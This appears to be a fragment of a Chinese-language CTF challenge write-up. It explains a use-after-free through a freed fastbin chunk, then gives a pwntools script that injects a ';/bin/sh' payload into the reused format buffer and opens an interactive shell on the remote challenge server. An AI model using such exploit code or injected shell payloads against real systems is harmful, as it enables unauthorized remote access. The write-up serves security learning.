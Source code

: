 所以大概的思路就有了：

1. 先产生一个存放format的空间然后释放，释放后指针F依旧指向这块内存，这块小空间被放在fastbin的头部，下一次分配内存时如果大小合适将首先将它分配出去
2. 进入函数3，输入payload，此时payload将放入原先放置format空间
3. 进入函数4，执行system("/bin/sh")，getshell

```py
from pwn import *
p = remote("220.249.52.133", 32519)
#p = process("./5")

print p.recv()

def mass(ch,data):
	p.sendline(ch)

	if len(data)>0:
		p.sendline(data)

mass("1","a")
mass("5","N")
mass("3",'\';/bin/sh\'')
#gdb.attach(p)
mass("4","")

print p.recv()
p.interactive()
```
